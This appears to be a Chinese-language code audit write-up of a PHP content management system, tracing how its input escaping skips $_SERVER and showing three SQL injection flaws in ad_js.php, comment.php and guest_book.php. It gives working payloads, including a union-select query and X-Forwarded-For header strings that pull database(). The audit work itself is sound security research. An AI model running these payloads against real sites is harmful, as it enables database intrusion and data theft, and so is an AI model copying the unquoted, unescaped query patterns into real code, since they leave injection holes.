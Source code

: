 ## 转义函数

对部分参数默认进行转义操作

`common.inc.php`

```php
if(!get_magic_quotes_gpc())
{
    $_POST = deep_addslashes($_POST);
    $_GET = deep_addslashes($_GET);
    $_COOKIES = deep_addslashes($_COOKIES);
    $_REQUEST = deep_addslashes($_REQUEST);
}
```

`common.fun.php`

```php
function deep_addslashes($str)
{
    if(is_array($str))
    {
        foreach($str as $key=>$val)
        {
            $str[$key] = deep_addslashes($val);
        }
    }
    else
    {
        $str = addslashes($str);
    }
    return $str;
}
```

没有对`$_SERVER`进行转义,可能在User-Agent存在SQL注入

## ad_js.php存在SQL注入漏洞

```php
define('IN_BLUE', true);
require_once dirname(__FILE__) . '/include/common.inc.php';

$ad_id = !empty($_GET['ad_id']) ? trim($_GET['ad_id']) : '';
if(empty($ad_id))
{
    echo 'Error!';
    exit();
}

$ad = $db->getone("SELECT * FROM ".table('ad')." WHERE ad_id =".$ad_id);
```

尽管`$ad_id`进行了转义操作,但是在拼接sql语句时没有用引号将`$ad_id`进行包裹,因此产生了sql注入

但是`getone`没有将mysql的报错信息回显,不能进行报错注入

```php
    function getone($sql, $type=MYSQL_ASSOC){
        $query = $this->query($sql,$this->linkid);
        $row = mysql_fetch_array($query, $type);
        return $row;
    }
```

利用`echo "<!--\r\ndocument.write(\"".$ad_content."\");\r\n-->\r\n";`对`$ad_content`进行回显,从而进行联合查询注入

`ad_js.php?ad_id=1 union select 1,2,3,4,5,6,@@version;`

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202203031527723.png)

## comment.php存在sql注入漏洞

`include/common.fun.php`

```php
function getip()
{
	if (getenv('HTTP_CLIENT_IP'))
	{
		$ip = getenv('HTTP_CLIENT_IP'); 
	}
	elseif (getenv('HTTP_X_FORWARDED_FOR')) 
	{
		$ip = getenv('HTTP_X_FORWARDED_FOR');
	}
	elseif (getenv('HTTP_X_FORWARDED')) 
	{ 
		$ip = getenv('HTTP_X_FORWARDED');
	}
	elseif (getenv('HTTP_FORWARDED_FOR'))
	{
		$ip = getenv('HTTP_FORWARDED_FOR'); 
	}
	elseif (getenv('HTTP_FORWARDED'))
	{
		$ip = getenv('HTTP_FORWARDED');
	}
	else
	{ 
		$ip = $_SERVER['REMOTE_ADDR'];
	}
	return $ip;
}
```

前面提到没有对`$_SERVER`进行转义,`getip`这个函数给了我们利用的点

引用查询

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202203031615790.png)

没有转义的情况,传入XFF头为`123'`

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202203031637887.png)

添加`$_SERVER = deep_addslashes($_SERVER);`转义后的情况,仍然传入XFF头为`123'`

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202203031638765.png)

利用这一点进行sql注入

在XFF头中传入`123','0'),('','1','0','0','0',database(),'1646297924','123','0')#`

构造出的sql语句为`INSERT INTO blue_comment (com_id, post_id, user_id, type, mood, content, pub_date, ip, is_check) VALUES ('', '1', '0', '0', '0', '123', '1646298189', '123','0'),('','1','0','0','0',database(),'1646297924','123','0')#', '1')`

网页回显结果

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202203031703074.png)

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202203031704697.png)

数据库查询结果

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202203031702732.png)

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202203031704875.png)

## guest_book.php存在sql注入漏洞

```php
elseif ($act == 'send')
{
	$user_id = $_SESSION['user_id'] ? $_SESSION['user_id'] : 0;
	$rid = intval($_POST['rid']);
 	$content = !empty($_POST['content']) ? htmlspecialchars($_POST['content']) : '';
 	$content = nl2br($content);
 	if(empty($content))
 	{
 		showmsg('评论内容不能为空');
 	}
	$sql = "INSERT INTO " . table('guest_book') . " (id, rid, user_id, add_time, ip, content) 
			VALUES ('', '$rid', '$user_id', '$timestamp', '$online_ip', '$content')";
	$db->query($sql);
	showmsg('恭喜您留言成功', 'guest_book.php?page_id='.$_POST['page_id']);
}
```

在`common.inc.php`中,将`$online_ip`定义为`getip()`

这一个注入点的利用方式同上,在XFF头中传入`123',database())#`

网页回显结果

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202203031720519.png)

数据库查询结果

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202203031720568.png)